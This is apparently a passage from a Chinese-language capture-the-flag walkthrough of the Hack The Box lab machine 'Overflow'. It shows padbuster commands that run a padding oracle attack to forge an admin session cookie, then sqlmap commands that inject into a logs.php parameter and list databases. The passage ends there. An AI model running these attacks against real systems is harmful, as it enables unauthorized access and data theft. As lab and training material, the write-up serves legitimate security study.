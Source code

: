 使用padbuster对cookie进行填充提示攻击爆破。

```
padbuster http://overflow.htb/home/index.php cU5G2ionAVcCQ6BDjl2Ioo24AlC20Uqx 8 -cookies auth=cU5G2ionAVcCQ6BDjl2Ioo24AlC20Uqx -encoding 0
```

![image](https://image.3001.net/images/20220413/1649834699_62567acb14682d6e3d732.png!small)

使用padbuster工具对Admin的cookie值进行爆破，得到admin账户的cookie值。

```
padbuster http://overflow.htb/home/index.php cU5G2ionAVcCQ6BDjl2Ioo24AlC20Uqx 8 -cookies auth=cU5G2ionAVcCQ6BDjl2Ioo24AlC20Uqx -encoding 0 -plaintext="user=Admin"
```

![image](https://image.3001.net/images/20220413/1649834885_62567b85f066ae07cc073.png!small)

替换掉普通账户的cookie值并刷新页面，发现存在一个`Admin Panel`页面。

![image](https://image.3001.net/images/20220413/1649834955_62567bcb5c24d956a744e.png!small)

发现是一个`made simple CMS`框架，在EDB上发现了很多nDay，但是全都是基于认证后的。

![image](https://image.3001.net/images/20220413/1649835060_62567c34d256d67fbe997.png!small)

### SQL注入

无果，当点击Logs页面并查看源代码时，发现了一个新的目录文件`../config/admin_last_login.js`

![image](https://image.3001.net/images/20220413/1649835182_62567cae4dc7faa76bdc8.png!small)

访问这个js文件时，发现了一个新的url地址`http://overflow.htb/home/logs.php?name=admin`

![image](https://image.3001.net/images/20220413/1649835344_62567d5027f4f45f1700c.png!small)

通过目录扫描发现了版本文件，并发现CMS版本是`2.2.8`，在EDB查找中发现是存在SQL注入漏洞的。

![image](https://image.3001.net/images/20220413/1649835628_62567e6cb98d69c05d2f4.png!small)

![image.png](https://image.3001.net/images/20220413/1649835653_62567e85e15e2aa951031.png!small)

直接上SQLMAP，发现存在GET类型注入。

```
sqlmap -u "http://overflow.htb/home/logs.php?name=admin" --cookie="auth=BAitGdYOupMjA3gl1aFoOwAAAAAAAAAA"
```

![image](https://image.3001.net/images/20220413/1649835694_62567eae20623cd07426c.png!small)

对数据库进行注入。

```
sqlmap -u "http://overflow.htb/home/logs.php?name=admin" --cookie="auth=BAitGdYOupMjA3gl1aFoOwAAAAAAAAAA" --dbs
```

